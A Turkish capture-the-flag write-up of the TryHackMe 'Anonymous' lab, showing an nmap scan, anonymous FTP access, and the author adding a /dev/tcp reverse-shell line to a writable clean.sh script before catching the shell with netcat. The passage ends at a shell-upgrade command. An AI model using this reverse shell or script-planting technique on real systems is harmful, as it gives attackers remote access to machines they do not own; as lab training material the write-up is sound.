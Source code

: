## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/anonymous">Anonymous</a> makinesinin çözümünü paylaşacağım.

Başlayalım.

## Görev 1

nmap çalıştıralım.

```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.20.162
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-12 01:24 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:24
Scanning 10.10.20.162 [4 ports]
Completed Ping Scan at 01:24, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:24
Completed Parallel DNS resolution of 1 host. at 01:24, 0.00s elapsed
Initiating SYN Stealth Scan at 01:24
Scanning 10.10.20.162 (10.10.20.162) [1000 ports]
Discovered open port 21/tcp on 10.10.20.162
Discovered open port 445/tcp on 10.10.20.162
Discovered open port 22/tcp on 10.10.20.162
Discovered open port 139/tcp on 10.10.20.162
Completed SYN Stealth Scan at 01:24, 1.91s elapsed (1000 total ports)
Initiating Service scan at 01:24
Scanning 4 services on 10.10.20.162 (10.10.20.162)
Completed Service scan at 01:24, 11.28s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.20.162.
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Nmap scan report for 10.10.20.162 (10.10.20.162)
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.096KB)
```


Makineyi numaralandırın. Kaç port açık?
> 4

21 numaralı bağlantı noktasında hangi hizmet çalışıyor?
> ftp

139 ve 445 numaralı bağlantı noktalarında hangi hizmet çalışıyor?
> smb

ftp servisine anonymous olarak girmeyi deniyorum.


```
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.20.162
Connected to 10.10.20.162.
220 NamelessOne's FTP Server!
Name (10.10.20.162:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||8298|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||45177|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1118 Nov 12 06:29 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> get clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||30118|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |****************************************************************|   314        2.62 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (3.35 KiB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
229 Entering Extended Passive Mode (|||37011|)
150 Opening BINARY mode data connection for removed_files.log (1118 bytes).
100% |****************************************************************|  1118        6.42 MiB/s    00:00 ETA
226 Transfer complete.
1118 bytes received in 00:00 (11.97 KiB/s)
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
229 Entering Extended Passive Mode (|||48492|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |****************************************************************|    68      205.59 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.72 KiB/s)
ftp> exit
221 Goodbye.
```

İndirdiğim dosyaları inceliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a1.png?raw=true)

clean.sh dosyasının içerisine reverse shell kodu ekliyorum ve put komutuyla ftp servisine gönderiyorum.

```
sh -i >& /dev/tcp/10.14.61.127/1234 0>&1
```

netcat çalıştırmayı unutmayalım.

```
nc -nvlp 1234
```

Kısa bir süre bekledikten sonra makineye erişim sağlıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a2.png?raw=true)

Shellimizi stabil hale getirelim:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```






